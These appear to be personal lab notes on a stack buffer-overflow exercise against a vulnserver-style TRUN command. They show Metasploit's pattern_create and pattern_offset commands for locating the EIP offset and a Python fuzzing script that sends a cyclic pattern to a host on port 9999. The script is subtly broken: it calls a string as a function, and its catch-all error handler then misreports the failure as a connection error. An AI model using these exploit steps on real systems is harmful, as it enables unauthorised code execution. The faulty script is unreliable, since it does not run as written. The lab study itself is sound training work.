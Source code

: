 ### Pattern Create Tool
**Creating a pattern of 3000 Bytes**
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```
**Finding Exact Match of the EIP Characters**
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q <EIP_Bytes>
```
**This will return the matched offset position so you can control the characters entered into the EIP**

#### New Fuzzing Script
```python
#!/usr/bin/python 
import sys, socket

offset = "<Created Pattern>"

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	s.connect(('192.168.1.35',9999)) 
	
	s.send(('TRUN /.:/' + offset())) 
	s.close()
except:
	print ("Error Connecting to Server") 
	sys.exit()
```

![[Immunity Debugger Buffer Overflow.png]]